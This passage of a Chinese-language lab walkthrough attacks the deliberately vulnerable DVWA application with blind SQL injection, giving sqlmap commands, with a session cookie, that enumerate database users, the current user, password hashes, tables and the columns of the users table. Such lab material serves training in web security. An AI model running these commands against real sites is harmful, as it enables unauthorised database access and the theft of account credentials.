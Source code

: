 ![25](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124734.png)



**列出数据库中的所有用户**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --second-url="192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --cookie="security=high;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch --users
```



![26](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124736.png)

**获取Web应用当前所操作的用户**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --second-url="192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --cookie="security=high;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch --current-user
```

![27](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124737.png)



**列出可连接数据库的所有账户-对应的密码哈希**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --second-url="192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --cookie="security=high;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch --passwords
```

![28](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124739.png)



**列出指定数据库中的所有数据表**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --second-url="192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --cookie="security=high;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch -D dvwa –tables
```

![29](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124741.png)



**列出指定数据表中的所有字段（列）**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --second-url="192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --cookie="security=high;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch -D dvwa -T users --columns
```

![30](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124742.png)
